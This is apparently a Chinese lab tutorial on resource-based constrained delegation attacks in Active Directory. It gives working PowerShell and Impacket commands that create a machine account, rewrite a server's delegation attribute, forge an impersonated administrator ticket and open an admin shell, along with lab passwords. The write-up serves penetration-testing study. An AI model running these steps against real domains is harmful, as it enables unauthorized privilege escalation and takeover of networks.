 # 基于资源的约束委派攻击

#### 4.1 原理概述

##### 4.1.2 基于资源的约束委派

​		基于资源的约束委派（Resource Based Constrained Delegation, RBCD）：基于资源的约束委派(RBCD)是在Windows Server 2012中新加入的功能，与传统的约束委派相比，它不再需要域管理员权限去设置相关属性。RBCD把设置委派的权限赋予了拥有被访问资源的管理员，既拥有被访问资源的管理员可以决定谁可以被委派来访问自己的资源。

基于资源的约束性委派优点：

- 委派的权限授予给了拥有资源的主机或用户，而不再是域管理员去设置。
- 约束性委派不能跨域进行委派，基于资源的约束性委派可以跨域和林。
- 不再需要域管理员权限设置委派，只需拥有在计算机对象上编辑 msDS-AllowedToActOnBehaffOtherldentity 属性权限。

##### 4.1.3 攻击利用条件

- 具有对主机修改 msDS-AllowedToActOnBehalfOfOtherIdentity 属性的权限，例如已经控制的主机是Server1， 则具有修改 Server1 这台主机的 msDS-AllowedToActOnBehalfOfOtherIdentity的权限账户。
  - 能够修改msDS-AllowedToActOnBehalfOfOtherIdentity属性的用户：
    - 将计算机加入域的用户。
    - Account Operator组的成员账户，该组用户可以修改域内任意主机（除了域控）的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性。
    - 该计算机或服务器的机器账户。
- 拥有一个能够创建机器账户的域用户权限。

#### 4.2 复现

##### 4.2.1 实验环境

DC（Windows Server 2012）：192.168.12.143 [域控]

Server（Windows Server 2008）：192.168.12.142 [普通域服务器]

域：woniu.com

域管理员：woniu\administrator  123456

Sever的本地管理员：server\administrator p-0p-0p-0

普通域用户（将Server加入域的用户）：web p-0p-0p-0



##### 4.2.2 基于资源的约束委派攻击本地提权

攻击流程：

- 利用域用户 web 创建一个机器账户，每个域用户默认可最多创建10个机器账户。
- 修改服务器 Server  的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性为新创建的机器用户的 sid
- 利用机器账户申请票据进行提权。

1. 使用web账户登录到域，通过 Powermad.ps1 创建机器账户machine1，密码为123456。

   （工具地址：https://github.com/Kevin-Robertson/Powermad）

   ```
   powershell
   Set-ExecutionPolicy Bypass -Scope Process  
   import-module .\Powermad.ps1
   New-MachineAccount -MachineAccount machine1 -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force)
   ```

   ![image-20230309221255187](https://s2.loli.net/2023/03/11/fyXF2To9A3stqOR.png)

2. 使用 powerview.ps1 查看机器账户machine1的sid。 

   （下载地址：https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView，这里我用的是第三方版本，功能都差不多）

   ```
   import-module .\powerview2.ps1
   Get-NetComputer machine1 -Properties objectsid
   ```

   ![image-20230309221426698](https://s2.loli.net/2023/03/11/f7x5cWpeJkDC8Xq.png)

   ```
   S-1-5-21-3821213924-1455870928-250839175-1109
   ```

3. 继续使用 powerview.ps1  设置基于资源的委派，修改 server 的 msds-allowedtoactonbehalfofotheridentity的值为机器账户的sid。

   ```
   $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;机器账户的sid)"
   
   $SDBytes = New-Object byte[] ($SD.BinaryLength)
   
   $SD.GetBinaryForm($SDBytes, 0)
   
   Get-DomainComputer 服务器主机名| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
   ```

   ![image-20230309221628028](https://s2.loli.net/2023/03/11/1EIp8UMbRehDzd4.png)

   查看 server 的msds-allowedtoactonbehalfofotheridentity是否设置成功。

   ```
   Get-DomainComputer server -Properties msds-allowedtoactonbehalfofotheridentity
   ```

   ![image-20230309221651290](https://s2.loli.net/2023/03/11/nDEdmu4TQGaWBfZ.png)

4. 使用 getST.py 获取对应票据。

   ```
   python3 /tmp/getST.py -dc-ip 192.168.12.143 woniu.com/machine1$:123456 -spn cifs/server.woniu.com -impersonate administrator
   ```

   ![image-20230309221919702](https://s2.loli.net/2023/03/11/jluTFC3cZMewR7m.png)

5. 导入票据，并使用 wmiexec.py 远程登录到server上，权限为管理员。

   注意：这里还是需要将域名加入到 /etc/hosts

   ```
   192.168.12.142 server.woniu.com
   ```

   

   ```
   KRB5CCNAME=administrator.ccache python3 /tmp/wmiexec.py -k woniu.com/administrator@server.woniu.com -dc-ip 192.168.12.143 
   ```
   
   ![image-20230309230237610](https://s2.loli.net/2023/03/11/61dYq3lH9WJjyAG.png)
   
   